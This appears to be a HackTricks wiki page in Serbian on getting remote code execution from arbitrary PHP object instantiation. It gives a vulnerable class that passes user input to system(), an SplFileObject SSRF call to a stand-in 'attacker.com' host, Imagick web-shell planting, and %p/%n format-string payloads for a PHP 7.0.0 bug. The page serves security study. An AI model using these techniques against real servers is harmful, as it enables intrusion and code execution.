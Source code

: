 # PHP - RCE zloupotreba kreiranja objekata: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Ovo je u suštini sažetak [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Uvod

Kreiranje proizvoljnih novih objekata, kao što je `new $_GET["a"]($_GET["a"])`, može dovesti do Remote Code Execution (RCE), kako je detaljno opisano u [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Ovaj dokument ističe različite strategije za postizanje RCE.

## RCE putem prilagođenih klasa ili autoloadinga

Sintaksa `new $a($b)` se koristi za instanciranje objekta gde **`$a`** predstavlja ime klase, a **`$b`** je prvi argument koji se prosleđuje konstruktoru. Ove promenljive mogu poticati iz inputa korisnika poput GET/POST, gde mogu biti stringovi ili nizovi, ili iz JSON-a, gde se mogu pojaviti kao drugi tipovi.

Razmotrite sledeći kod:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
U ovom slučaju, postavljanje `$a` na `App` ili `App2` i `$b` na sistemsku naredbu (npr. `uname -a`) dovodi do izvršavanja te naredbe.

**Funkcije za automatsko učitavanje** mogu biti iskorišćene ako takve klase nisu direktno dostupne. Ove funkcije automatski učitavaju klase iz fajlova kada su potrebne i definišu se pomoću `spl_autoload_register` ili `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Ponašanje automatskog učitavanja (autoloading) varira u zavisnosti od verzije PHP-a, što pruža različite mogućnosti za RCE.

## RCE kroz ugrađene klase

U nedostatku prilagođenih klasa ili autoloadera, **ugrađene PHP klase** mogu biti dovoljne za RCE. Broj ovih klasa kreće se između 100 i 200, zavisno od verzije PHP-a i ekstenzija. Mogu se nabrojati koristeći `get_declared_classes()`.

Konstruktori od interesa mogu se identifikovati putem reflection API-ja, kao što je prikazano u sledećem primeru i na linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE putem specifičnih metoda uključuje:**

### **SSRF + Phar Deserialization**

Klasa `SplFileObject` omogućava SSRF kroz njen konstruktor, dozvoljavajući konekcije na bilo koji URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF može dovesti do deserializacionih napada u verzijama PHP-a pre 8.0 koristeći Phar protokol.

### **Exploiting PDOs**

Konstruktor klase PDO omogućava konekcije ka bazama podataka preko DSN stringova, potencijalno omogućavajući kreiranje fajlova ili druge interakcije:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Verzije PHP-a do 5.3.22 i 5.4.12 bile su podložne XXE napadima kroz konstruktore `SoapClient` i `SimpleXMLElement`, u zavisnosti od verzije libxml2.

## RCE via Imagick Extension

U analizi zavisnosti projekta otkriveno je da se `Imagick` može iskoristiti za izvršavanje komandi instanciranjem novih objekata. To predstavlja mogućnost za eksploataciju ranjivosti.

### VID parser

Identifikovana je sposobnost VID parser-a da upisuje sadržaj na bilo koju zadatu putanju u datotečnom sistemu. To može dovesti do postavljanja PHP shell-a u direktorijum dostupan preko weba, ostvarujući Remote Code Execution (RCE).

#### VID Parser + File Upload

Primećeno je da PHP privremeno smešta upload-ovane fajlove u `/tmp/phpXXXXXX`. VID parser u `Imagick`, koristeći `msl` protokol, može da rukuje wildcard-ima u putanjama fajlova, olakšavajući premeštanje privremenog fajla na željenu lokaciju. Ovaj metod nudi dodatni pristup za proizvoljno upisivanje fajlova u datotečni sistem.

### PHP Crash + Brute Force

Metod opisan u [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) uključuje upload fajlova koji izazovu pad servera pre nego što budu obrisani. Brute-forcing imena privremenog fajla može omogućiti `Imagick`-u da izvrši proizvoljan PHP kod. Međutim, ova tehnika je bila efikasna samo u zastareloj verziji ImageMagick-a.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Kada korisnički unos kontroliše ime klase (npr. `new $_GET['model']()`), PHP 7.0.0 je uveo privremeni bag tokom refaktorisanja `Throwable` gde je engine pogrešno tretirao ime klase kao printf format string prilikom rezolucije. Ovo omogućava klasične printf-style primitive unutar PHP-a: leaks sa `%p`, kontrolu broja upisa pomoću width specifikatora, i proizvoljne upise sa `%n` protiv in-process pokazivača (na primer, GOT unosi na ELF build-ovima).

Minimalni ranjiv obrazac za reprodukciju:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Pregled eksploatacije (iz reference):
- Leak adrese pomoću `%p` u nazivu klase da biste pronašli zapisivu metu:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Koristite pozicione parametre i specifikatore širine da postavite tačan broj bajtova, zatim `%n` da upišete tu vrednost na adresu dostupnu na stogu, ciljajući GOT slot (npr. `free`) da ga delimično prepišete u `system`.
- Okidajte preotetu funkciju prosleđivanjem imena klase koje sadrži shell pipe da biste došli do `system("id")`.

Napomene:
- Radi samo na PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); ispravljeno u narednim izdanjima. Ozbiljnost: kritična ako postoji mogućnost proizvoljne instancijacije klase.
- Tipični payloadi povezuju mnogo `%p` da bi prošli kroz stog, zatim `%.<width>d%<pos>$n` da bi se izvršilo parcijalno prepisivanje.

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
